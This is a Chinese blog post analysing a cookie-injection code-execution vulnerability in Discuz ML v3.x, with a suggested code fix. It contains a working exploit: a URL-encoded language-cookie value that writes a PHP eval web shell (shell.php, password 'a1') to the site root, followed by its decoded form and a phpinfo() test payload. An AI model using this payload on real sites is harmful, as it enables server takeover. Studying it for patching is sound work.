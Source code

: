 ```yaml
---
title: "Discuz Ml v3.x 代码执行分析"
date: 2019-07-11T20:48:12+08:00
lastmod: 2019-07-11T20:48:12+08:00
draft: false
tags: ['exec','code']
categories: ['code']
comment: true
---
```

昨天晚上Discuz Ml爆出了漏洞，今天来分析一波。

<!--more-->

## exp

修改Cookie中的xxxx_language字段为以下内容即可

```php
%27.+file_put_contents%28%27shell.php%27%2Curldecode%28%27%253c%253fphp+%2520eval%28%2524_%2547%2545%2554%255b%2522a1%2522%255d%29%253b%253f%253e%27%29%29.%27
```

访问网站首页则会在根目录下生成木马文件,shell.php 密码为a1

![20190711205534.png](https://ae01.alicdn.com/kf/UTB8_Dhrw9bIXKJkSaef761asXXaa.png)

## 定位漏洞位置

解码exp

```
'.+file_put_contents('shell.php',urldecode('<?php+ eval($_GET["a1"]);?>')).'
```

修改exp为`_language=1.1.1;`使其报错。

- ![20190711210101.png](https://ae01.alicdn.com/kf/UTB8Hrllw__IXKJkSalU761BzVXat.png)

定位到653行

![20190711211456.png](https://ae01.alicdn.com/kf/UTB8TMXHw1vJXKJkSajh7637aFXaX.png)

关键代码644行
```php
$cachefile = './data/template/'.DISCUZ_LANG.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
`cachefile`变量是缓存文件，将其写入到`/data/template/`目录下，并且由`DISCUZ_LANG`拼接，追踪下`DISCUZ_LANG`的值
2088-2096行

```php
global $_G;
if($_G['config']['output']['language'] == 'zh_cn') {
return 'SC_UTF8';
} elseif ($_G['config']['output']['language'] == 'zh_tw') {
return 'TC_UTF8';
} else {
//vot !!!! ToDo: Check this for other languages !!!!!!!!!!!!!!!!!!!!!
/*vot*/			return strtoupper(DISCUZ_LANG) . '_UTF8';
}
```
可以看到`$_G['config']['output']['language']`作为`DISCUZ_LANG`的值

全局搜索`['language']`

source/class/discuz/discuz_application.php 305行，发现是从cookie中拿到language的值

![20190711212635.png](https://ae01.alicdn.com/kf/UTB86WNtw9bIXKJkSaef761asXXaB.png)

那么到这里整个漏洞的流程就很明显了，cookie中`language`参数可控导致`DISCUZ_LANG`可控，从而导致`cachefile`的文件名可被注入代码，最终`include_once`包含一下导致了造成代码执行。

phpinfo验证

`Ov1T_2132_language='.phpinfo().';`

![20190711214222.png](https://ae01.alicdn.com/kf/UTB8HphiwYnJXKJkSahG760hzFXaN.png)

## 修复建议

截止到本文发布之前，补丁还没有出来。

建议修改source/function/function_core.php 644行为

```php
/*vot*/	$cachefile = './data/template/'.'sc'.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
 删除可控变量

## 写在文后

其实从漏洞点的注释上来看就知道这是一个未完成的部分，毕竟还是`TODO`，开发人员得背锅。不过我怎么没有这种好运气呢，呜呜呜😭

